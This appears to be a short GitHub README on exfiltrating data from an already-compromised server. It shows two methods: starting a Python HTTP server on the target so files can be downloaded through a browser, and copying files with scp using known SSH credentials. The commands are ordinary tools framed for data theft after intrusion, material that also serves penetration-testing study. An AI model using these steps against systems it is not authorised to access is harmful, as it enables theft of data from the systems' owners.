 # Easy Data Exfiltrate

This repository contains the techniques for data exfiltration after compromising a server. 

### Using Python Server
The easiest method will be to start a Python HTTP Server on the target server, and downloading
the required data in personal system through web browser. 

In Python 3.x the following command can be used to start a python server:

```bash
python3 -m http.server 8000
```

In Python 2.x the following command can be used to start a python server. 

```bash
python -m SimpleHTTPServer 8000
```

But mostly, you will not find python installed on the compromised system, so you can try the next technique. 

### Through SSH

If the SSH port is open and you have the SSH credentials, then the data can be transferred through ssh easily using the technique given below:

Run This command on your own system

```bash
scp user@ServerIP:/home/location/of/the/data.zip Location/on/MySystem.zip
```

> [!NOTE]
> This will ask for the SSH Password if you are not in the authorized_keys.


The above command will simply copy the file/data from remote server just like the `cp` command copies files in your own system. 



